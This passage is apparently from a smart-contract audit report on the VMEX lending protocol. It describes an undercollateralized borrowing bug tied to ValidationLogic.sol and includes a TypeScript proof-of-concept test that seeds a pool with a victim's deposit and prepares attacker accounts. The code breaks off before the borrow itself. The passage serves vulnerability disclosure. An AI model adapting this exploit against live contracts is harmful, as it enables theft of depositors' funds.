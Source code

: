 #### Technical Details

[ValidationLogic.sol#L193](https://github.com/VMEX-finance/vmex/blob/e1c910c6cda1988524841684ed1f37fd649450b3/packages/contracts/contracts/protocol/libraries/logic/ValidationLogic.sol#L193).


In the following POC, an attacker can borrow 100,000 USDC with 10 ETH of collateral with ETH being priced around 270 USD in the tests, that's about 2,700 USDC of collateral. You can run this test in your test suite.

```typescript
import {
  APPROVAL_AMOUNT_LENDING_POOL,
} from "../../helpers/constants";
import { convertToCurrencyDecimals, convertToCurrencyUnits } from "../../helpers/contracts-helpers";
import { expect } from "chai";
import { ethers } from "ethers";
import { ProtocolErrors } from "../../helpers/types";
import { makeSuite, TestEnv } from "./helpers/make-suite";
import { CommonsConfig } from "../../markets/aave/commons";
import { getVariableDebtToken } from "../../helpers/contracts-getters";

const AAVE_REFERRAL = CommonsConfig.ProtocolGlobalParams.AaveReferral;

makeSuite("Borrow exploit", (testEnv: TestEnv) => {

  it("exploit", async () => {
    const { users, pool, weth, usdc, oracle } = testEnv;

    var ethPrice = await oracle.getAssetPrice(weth.address)
    console.log("eth price: ", ethPrice)

    var usdcPrice = await oracle.getAssetPrice(usdc.address)
    console.log("usdc price: ", usdcPrice)

    var victims = users[0]
    var config = await pool.getReserveData(usdc.address, 0)
    var debtToken = await getVariableDebtToken(config[7])

    // Seed 1M in the pool.
    await usdc
    .connect(victims.signer)
    .mint(await convertToCurrencyDecimals(usdc.address, "1000000"));

    await usdc
      .connect(victims.signer)
      .approve(pool.address, APPROVAL_AMOUNT_LENDING_POOL);

    await pool
      .connect(victims.signer)
      .deposit(
        usdc.address,
        0,
        await convertToCurrencyDecimals(usdc.address, "1000000"),
        victims.address,
        "0"
      );

    var attackerAddress0 = users[1]
    var attackerAddress1 = users[2]
    await weth
      .connect(attackerAddress0.signer)
      .mint(await convertToCurrencyDecimals(weth.address, "10"));

```
